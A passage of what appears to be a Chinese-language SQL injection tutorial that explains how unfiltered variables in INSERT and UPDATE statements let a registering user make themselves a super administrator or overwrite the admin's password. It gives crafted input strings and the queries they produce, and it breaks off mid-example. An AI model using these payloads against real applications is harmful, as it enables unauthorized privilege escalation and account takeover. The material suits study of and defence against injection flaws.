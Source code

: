 其中userlevel代表用户的等级，1是普通用户，2是普通管理员，3是超级管理员，一个注册程序默认注册成普通用户:

```
INSERT INTO user (userid,username,password,homepage,userlevel) VALUES ('','$username','$password','$homepage','1');
```

默认userlevel字段是插入1，其中的变量都是没有经过过滤直接写入数据库的，可以在注册的时候，构造$homepge变量，就可以达到写的目的，指定$homepage变量为:
```
http://homepage','3')#
```

这时候插入数据库的时候就变成了:

```
INSERT INTO 'user' (userid,username,password,homepage,userlevel) VALUES ('','aaron','password','http://homepage','3')#','1');

这样就注册成为超级管理员了，但这种利用方法也有一定的局限性，比如：没有需要改写的变量如userlevel字段是数据库的第一个字段，前面没有地方给我们注入，也没有其他方法。


**UPDATE**

和INSERT相比，UPDATE的应用更加广泛，如果过滤不够，足以改写任务和数据。
```
UPDATE user SET password='$password',username='$username' WHERE id='$id';
```

用户可以修改自己的密码和主页，程序中的SQL语句没有更新userlevel字段，如何提升？还是构造$homepage变量，指定$homepage变量为:

```
http://homepge',userlevel='3
```

```
UPDATE user SET pssword='password',homepage='http://homepage',userlevel='3' WHERE id='$id';
```

直接修改任意用户的资料
```
UPDATE user SET password='MD5($password)',homepage='$homepage' WHERE id='$id'
```

尽管密码被加密了，但还是可以构造需要的语句，指定$password为:
```
mypass') where username='admin'#
```

```
UPDATE user SET password='MD5(mypass)' WHERE username='admin'#)',homepage='$homepage' WHERE id='$id';
```

这样就更改了更新的条件，也可以从$id下手，指定$id为:

```
' or username='admin'
